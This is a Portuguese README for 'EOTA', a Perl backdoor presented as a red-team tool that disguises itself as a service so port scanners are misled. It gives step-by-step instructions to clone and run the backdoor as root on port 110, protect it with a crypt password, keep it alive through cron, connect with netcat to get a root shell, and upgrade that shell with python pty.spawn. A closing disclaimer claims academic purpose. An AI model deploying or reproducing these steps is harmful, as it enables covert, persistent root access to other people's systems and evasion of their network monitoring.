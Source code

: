 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.<br/>
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.<br/>
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:<br/>
perl -e 'print crypt ("PASSWORD","salto")'<br/>
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git<br/>
>$ cd PERL
>$ chmod a+x EOTA.pl
># perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110<br/>
>PASSWORD<br/>
>id<br/>
>uid=0(root) gid=0(root) groups=0(root)

## TTY
Se voce precisar de um TTY voce verificar com o python por exemplo para obter uma linha de comando mais interativa:<br/>
>which python<br/>
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'<br/>


#### ATENÇÃO: Não me responsabilizo pelo uso indevido desta ferramenta, ela foi projetada para fins academicos. 
